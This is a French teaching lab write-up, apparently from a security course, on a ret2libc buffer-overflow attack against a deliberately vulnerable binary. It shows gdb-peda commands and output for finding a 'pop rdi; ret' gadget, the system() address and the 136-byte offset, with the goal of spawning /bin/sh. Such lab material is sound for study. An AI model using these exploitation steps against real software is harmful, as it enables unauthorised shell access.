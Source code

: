 ## Return 2 libc

Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable)


![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:
int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>
gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"
gdb-peda$ 
gdb-peda$ r < <(cat entry.txt)
Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10
Stopped reason: SIGSEGV
0x0000000000401178 in vuln () at ret2libc.c:10
10	}
gdb-peda$ x/1wx $rsp
0x7fffffffde98:	0x41514141
gdb-peda$ pattern offset 0x41514141
1095844161 found at offset: 136

l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans le script pyton ret2libc.py et exécutez-le ensuite:

![ret5](https://github.com/aabda2000/sti3a-security/assets/38082725/1880213c-e883-4757-aefa-1679fe2e8eba)
